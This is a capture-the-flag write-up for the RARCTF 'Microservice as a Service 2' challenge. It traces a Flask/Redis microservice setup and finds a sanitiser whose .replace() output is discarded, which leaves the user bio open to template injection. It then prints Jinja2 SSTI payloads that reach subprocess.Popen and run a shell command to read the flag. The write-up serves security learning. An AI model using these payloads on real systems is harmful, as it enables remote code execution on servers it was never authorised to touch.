


# Microservice as a Service 2

```
Part 2: Notes

https://maas.rars.win/
```

### Challenge

> TL;DR: Solved by unintended solution due to improper input sanitization.

Once again, we begin by analyzing the docker network layout. We will be able to access `notes` from the main application. We also see that there are 2 additional hosts, `redis_users` and `redis_userdata`, which we cannot reach from the main application directly as they reside in `notes-net`:
```yml
  notes:
    build: notes
    depends_on: ["redis_users", "redis_userdata"]
    networks:
      - level-1
      - notes-net
  redis_users:
    image: library/redis:latest
    networks:
      - notes-net
  redis_userdata:
    build: notes/redis_userdata
    networks:
      - notes-net
```

Looking at how the main application calls the `notes` network, we see that we first have to register with a `username` and afterwards we will get a  `uid` assigned to our session.

**Source**: `app/app.py`
```py
@app.route('/notes/profile', methods=["POST", "GET"])
def profile():
    username = session.get('notes-username')
    if not username:
        return redirect('/notes/register')
    uid = requests.get(f"http://notes:5000/getid/{username}").text
    // ...

@app.route('/notes/register', methods=["GET", "POST"])
def register():
    if request.method == "GET":
        return render_template('register.html')
    data = {"mode": "register", "username": request.form.get("username")}
    requests.post("http://notes:5000/useraction", data=data)
    session["notes-username"] = request.form.get("username")
    return redirect("/notes/profile")
```

**Source**: `app/notes/app.py`
```py
@app.route('/useraction', methods=["POST"])
def useraction():
    mode = request.form.get("mode")
    username = request.form.get("username")
    if mode == "register":
        r = requests.get('http://redis_userdata:5000/adduser')
        port = int(r.text)
        red = redis.Redis(host="redis_users")
        red.set(username, port)
        return ""

@app.route('/getid/<username>')
def getid(username):
    red = redis.Redis(host="redis_users")
    return red.get(username).decode()
```

At this point, we observe that a Redis database is being deployed on the `redis_users` host.

**Source**: `app/notes/redis_userdata/app.py`
```js
@app.route('/adduser')
def adduser():
    port = random.randint(50000, 60000)
    if os.system(f"redis-server --port {port} --daemonize yes --protected-mode no") == 0:
        return str(port), 200
    else:
        return "0", 500
```

To summarize, each time a `username` is registered, a random port number from 50000 to 60000 is generated and opened on the `redis_userdata` host. This port number is made known to `notes` host, which stores it to a Redis instance running on `redis_users` host in the format `{username:port}`.

Now that the application is clear to us, it's time to find the path forward. It appears that each user can save a `bio` to their own profile. This bio is treated as a template and rendered when a GET request is sent to the `/notes/profile` route on the main application server. Perhaps we can perform SSTI?

**Source**: `app/app.py`
```py
def render_bio(username, userdata):
    data = {"username": username,
            "mode": "bioget"}
    r = requests.post("http://notes:5000/useraction", data=data)
    try:
        r = requests.post("http://notes:5000/render", json={"bio": r.text, "data": userdata})
        return r.text
    except:
        return "Error in bio"

@app.route('/notes/profile', methods=["POST", "GET"])
def profile():
    // ...
    if request.method == "GET":
        return render_template("profile.html",
                               bio=render_bio(username, userdata(username)),
                               userid=uid
                               )
    // ...
```

It appears that whatever a user loads their own profile, the main application makes a request to `http://notes/useraction` with the `mode` set to `bioget`. This results in the following code to execute on `notes` server:

**Source**: `app/notes/app.py`
```py
elif mode == "bioget":
    red = redis.Redis(host="redis_users")
    port = red.get(username).decode()
    r = requests.get(f"http://redis_userdata:5000/bio/{port}")
    return r.text
```

Which in turns retrieves `bio` from the `redis_userdata` host:

**Source**: `app/notes/redis_userdata/app.py`
```py
@app.route("/bio/<port>", methods=["POST", "GET"])
def bio(port):
    if request.method == "GET":
        if os.path.exists(f"/tmp/{port}.txt"):
            with open(f"/tmp/{port}.txt") as f:
                return f.read()
        else:
            return ""
    elif request.method == "POST":
        with open(f"/tmp/{port}.txt", 'w') as f:
            f.write(request.json.get("bio"))
        return ""
```

After retrieving a `bio`, the main application will make a request to the `notes` host, which will in turn render the data sent as a template.

**Source**: `app/app.py:render_bio()`
```py
r = requests.post("http://notes:5000/render", json={"bio": r.text, "data": userdata})
        return r.text
```

**Source**: `app/notes/app.py`
```py
@app.route("/render", methods=["POST"])
def render_bio():
    data = request.json.get('data')
    if data is None:
        data = {}
    return render_template_string(request.json.get('bio'), data=data)
```

So, we just have to save SSTI payloads in our `bio`, right? But, remember that the `bioadd` code sanitizes our input?

**Source**: `app/notes/app.py`
```py
elif mode == "bioadd":
        bio = request.form.get("bio")
        bio.replace(".", "").replace("_", "").\
            replace("{", "").replace("}", "").\
            replace("(", "").replace(")", "").\
            replace("|", "")

        bio = re.sub(r'\[\[([^\[\]]+)\]\]', r'{{data["\g<1>"]}}', bio)
        red = redis.Redis(host="redis_users")
        port = red.get(username).decode()
        r = requests.post(f"http://redis_userdata:5000/bio/{port}", json={
            "bio": bio
        })
        return r.text
```

Notice anything off? The return value of the `.replace()` chain was never re-assigned into the `bio` variable. This breaks the sanitization process and we are able to directly inject SSTI payloads!

Performing the typical payload testing to leak the `subprocess.Popen` class, we found the offset to be at 278:

```
{{ ''.__class__.__mro__ }}
    -> (<class 'str'>, <class 'object'>)

{{ ''.__class__.__mro__[1].__subclasses__() }}
    -> [<class 'type'>, <class 'weakref'>, ... ]
    -> Index of <class 'subprocess.Popen'> is [278]

{{ ''.__class__.__mro__[1].__subclasses__()[278]('cat /flag.txt', shell=True, stdout=-1).communicate() }}
```



Save the final payload as a `bio` and upon the page reload, we will see the flag displayed to us.



Flag: `rarctf{wh4t_w4s_1_th1nk1ng..._60a4ee96}`
